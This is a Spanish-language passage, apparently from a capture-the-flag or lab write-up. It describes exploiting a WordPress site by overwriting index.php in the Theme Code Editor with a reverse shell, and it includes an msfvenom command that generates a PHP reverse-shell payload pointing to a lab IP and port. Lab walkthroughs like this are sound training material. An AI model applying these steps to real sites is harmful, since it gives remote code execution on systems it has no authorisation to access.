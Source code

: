 
---


## Explotación


Investigando un poco, tenemos un editor de temas del propio Wordpress, el cual podemos modificar alguna página para que cuando se ejecute nos proporcione un **reverse shell**, para ello:

1. Vamos a `Apariencia/Theme Code Editor` y ahí encontramos la estructura de archivos del **CMS**
<p align="center">
    <img src="../img/Pasted_image_20241208225712.png" width="500">
</p>


2. El primer código que vemos es de la página **index.php**, la idea es borrar todo el código e introducir una **reverse shell** y así poder obtener una *RCE*. Vamos a generar un código malicioso con **msfvenom**.
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=1234 -f raw > pwned.php
```
<p align="center">
    <img src="../img/Pasted_image_20241208230044.png" width="500">
</p>
